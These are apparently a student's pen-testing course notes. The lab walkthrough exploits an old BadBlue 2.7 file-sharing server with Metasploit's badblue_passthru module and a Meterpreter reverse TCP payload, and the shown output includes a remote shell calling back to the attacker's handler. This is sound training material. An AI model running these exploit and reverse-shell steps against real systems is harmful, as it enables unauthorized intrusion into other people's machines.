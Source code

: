 <a id=6.4></a>
## Nessus

*By some reason, the Nessus section of the course is after this entire chapter. I know how to use Nessus, so it's not a problem for me. nevertheless, if you don't know how to use Nessus, wait for the next chapter. I'll update this file whenever I've started the auditing course.* 

<a id=6.5></a>
## Vulnerability Assessment

Do a Nmap scan. Check the services versions, google them, find something like an exploit on Exploit-db and become a skiddie. 
Just kidding. Read the exploits, don't just use them. Improve upon them. Be better.

For later: I'd like to write a script based upon the [VSFTPD smiley face vulnerability](https://github.com/penkit/site/blob/master/guides/vsftpd-backdoor.md)
because, since I don't have a lot of expertise writing exploits or more "complex" scripts, I think a vulnerability 
of this ~~easiness to exploit~~  simplicity would be a good place to start.

<a id=6.5.1></a>
### Windows: Easy File Sharing Server Lab

Objective: exploit the server and retrieve the flag.

```bash
$ nmap -sV $target
80/tcp    open  http           BadBlue httpd 2.7
# BadBlue is an old file sharing program. It's out of development and vulnerable to a lot of attacks. Let's try to exploit it.
$ msfconsole
msf5 > use use exploit/windows/http/badblue_passthru
msf5 exploit > options
Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
msf5 exploit > set RHOST $target
msf5 exploit > set RPORT 80
msf5 exploit > use payload windows/meterpreter/reverse_tcp
msf5 exploit > exploit

[*] Started reverse TCP handler on 10.10.80.5:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.4.20.250
[*] Meterpreter session 2 opened (10.10.80.5:4444 -> 10.4.20.250:49257) at 2023-08-07 20:56:44 +0530

meterpreter > shell
Process 500 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\BadBlue\EE>echo pwned!!!
echo pwned!!!
pwned!!!
C:\Program Files (x86)\BadBlue\EE>cd C:\
```